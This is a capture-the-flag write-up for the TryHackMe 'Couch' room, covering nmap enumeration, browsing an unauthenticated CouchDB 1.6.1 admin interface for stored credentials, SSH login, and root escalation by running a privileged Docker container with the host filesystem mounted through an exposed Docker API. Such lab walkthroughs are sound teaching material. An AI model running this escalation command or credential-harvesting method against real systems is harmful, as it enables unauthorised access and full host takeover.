


# Couch

**Date:** 01, July, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/couch) to go to the TryHackMe room.


## Enumeration

### Nmap

```bash
$ nmap -sC -sV -p- 10.10.15.199 -oN nmap.out
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-01 14:01 IST
Nmap scan report for 10.10.15.199
Host is up (0.17s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 473.15 seconds
```

### How many ports are open?
- **Answer:** 2

### What's is the database management system installed on the server?
- **Answer:** CouchDB

### What port is the database management system running on?
- **Answer:** 5984

### What's is the version of management system installed on the server?
- **Answer:** 1.6.1

---

## Administration tool

### What is path for the web administration tool for this database management system?
- **Answer:** _utils



### What is path for list all databases in the web browser of the database management system?
- **Answer:** _all_dbs

### What is the credentials founed in the web administration tool?
- The credentials can be found inside `secret` collection.



---

## User.txt

- Login into **SSH** using the credentials found:

```bash
$ ssh atena@10.10.15.199
atena@10.10.15.199's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-193-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Fri Dec 18 15:25:27 2020 from 192.168.85.1
atena@ubuntu:~$ ls
user.txt

atena@ubuntu:~$ whoami
atena

atena@ubuntu:~$ cat user.txt 
THM{REDACTED}
```

---

## Privilege Escalation

- Do manual enumeration - check the following for Privilege Escalation:
    - Sudo Permissions
    - SUID binaries
    - Cron Jobs
    - Backup files
    - History files
    - Config files
    - Running Processes (`ps aux`)


- By checking the bash history file:

```bash
atena@ubuntu:~$ cat .bash_history 
[..snip..]
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
[..snip..]
```

- Run docker in privileged mode, to get root access:

```bash
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
/ # 
/ # whoami
root
```


### Root.txt

```bash
~ # find / -name root.txt 
/mnt/root/root.txt

~ # cat /mnt/root/root.txt
THM{REDACTED}
```

---